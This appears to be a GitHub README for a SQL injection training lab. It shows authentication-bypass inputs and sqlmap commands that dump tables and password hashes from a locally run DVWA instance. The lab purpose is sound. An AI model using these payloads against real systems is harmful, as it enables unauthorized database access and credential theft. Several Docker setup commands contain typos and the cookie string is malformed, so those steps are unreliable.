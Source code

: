 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction
<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>
## Scenarios:
<h4>1. Basic SQLi Attack on a Python Login System
* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>
2. Safe Environment Web Application Demonstration (Simulated)
* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```
<p style="text-align:center;">
<img src="./PNGs/6.png"></p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker

```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa

```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png"></p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png"></p>



# SQL Injection Attack


1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png"></p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png"></p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">
<img src="./PNGs/8.png"></p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;">
<img src="./PNGs/7.png"></p>

* Viewing table content and cracking password hashes:
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>


